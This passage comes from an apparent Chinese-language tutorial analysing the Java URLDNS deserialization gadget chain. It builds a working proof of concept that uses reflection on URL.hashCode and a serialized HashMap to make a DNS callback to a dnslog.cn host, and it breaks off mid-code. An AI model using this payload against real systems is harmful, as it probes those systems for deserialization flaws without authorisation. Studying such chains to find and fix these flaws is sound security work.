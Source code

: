 进入了hashCode.getHostAddress，使用InetAddress.getByName(host);，发送DNSLOG请求。

![img](assets/202304181613818.png)

## POC构造

根据分析，触发的关键是HashMap的put方法，故下面的代码是必须的

```java
HashMap ht = new HashMap();
ht.put(url,"RRR");
```

因为ht.put需要传入URL的实例，new一个，因为URL是可序列化的，不用反射获取

```java
URL url = new URL("http://64hu68.dnslog.cn");
```

根据上面的分析，必须要将这个URL 实例中的，hashCode的值变为-1，通过反射获取变量更改

```java
Field f = Class.forName("java.net.URL").getDeclaredField("hashCode");
f.setAccessible(true);
f.set(url, -1);
```

综上，组合起来完整的poc

```java
package ysoserial;
import java.io.*;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

public class Test {
    public static void main(String[] args) throws Exception{
        URL url = new URL("http://64hu68.dnslog.cn");
        HashMap ht = new HashMap();
        Field f = Class.forName("java.net.URL").getDeclaredField("hashCode");
        f.setAccessible(true);
        f.set(url, -1); //防止put就先进行解析DNS
        ht.put(url,"RRR");


        //序列化写文件
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("out.bin"));
        oos.writeObject(ht);
        //反序列化触发payload
```